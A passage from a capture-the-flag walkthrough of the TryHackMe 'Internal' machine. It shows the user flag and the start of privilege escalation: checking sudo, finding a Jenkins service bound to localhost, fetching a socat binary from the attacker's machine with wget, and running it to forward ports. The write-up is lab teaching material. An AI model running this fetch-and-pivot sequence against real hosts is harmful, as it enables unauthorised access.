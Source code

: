 User flag: `THM{int3rna1_fl4g_1}`


# Root.txt Flag

## Check privileges

To read the root flag, we will need a privilege escalation. Unfortunately, aubreanna is not in the sudoers.

~~~
aubreanna@internal:~$ sudo -l
Sorry, user aubreanna may not run sudo on internal.
~~~

## Jenkins

There is an interesting file in aubreanna's home folder that tells us Jenkins is running on port 8080:

~~~
aubreanna@internal:~$ cat jenkins.txt 
Internal Jenkins service is running on 172.17.0.2:8080
~~~

We confirm that the service is only available to localhost.

~~~
aubreanna@internal:~$ netstat -tan | grep 8080
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN    
~~~

There are several indications that docker is available on the target, and as the Jenkins documentation (https://www.jenkins.io/doc/book/installing/) explains how to install Jenkins with docker, we can assume that this is how Jenkins has been installed. If not a rabbit hole, this could be a way to elevate our privileges to root. Worth trying... 

To make Jenkins available to us (instead of just localhost), we can use `socat` to redirect ports. As `socat` is not available on the target, we have to transfer it. Here is how you can do it:

*On Kali:*

~~~
kali@kali:/data/Internal$ which socat 
/usr/bin/socat
kali@kali:/data/Internal$ cd /usr/bin/
kali@kali:/usr/bin$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
~~~

*On the target:*

~~~
aubreanna@internal:~$ cd /tmp/
aubreanna@internal:/tmp$ wget http://10.8.50.72:8000/socat
aubreanna@internal:/tmp$ chmod +x socat
aubreanna@internal:/tmp$ ./socat TCP-LISTEN:8888,fork TCP:127.0.0.1:80 &
~~~
